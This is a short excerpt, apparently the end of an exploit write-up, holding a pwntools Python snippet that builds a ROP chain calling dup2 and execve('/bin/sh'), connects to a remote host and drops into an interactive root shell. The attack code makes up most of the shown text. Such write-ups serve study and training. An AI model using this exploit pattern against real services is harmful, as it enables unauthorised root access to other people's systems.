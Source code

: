 ```python
rop2.dup2(4, 1)

# Check the offset of the system call
rop2.execve(next(efi2.search(b"/bin/sh\x00")), 0, 0)

# Enstablish the last connection
con = remote(host, port)
rop(can, rbp, ropp=rop2)
# Make it interactive because we returned to /bin/sh as root!
con.interactive()
```

To get more info about the library, refer to [the documentation](https://pwntools.readthedocs.io/en/stable/globals.html). And profit, but damn, it was Intense...
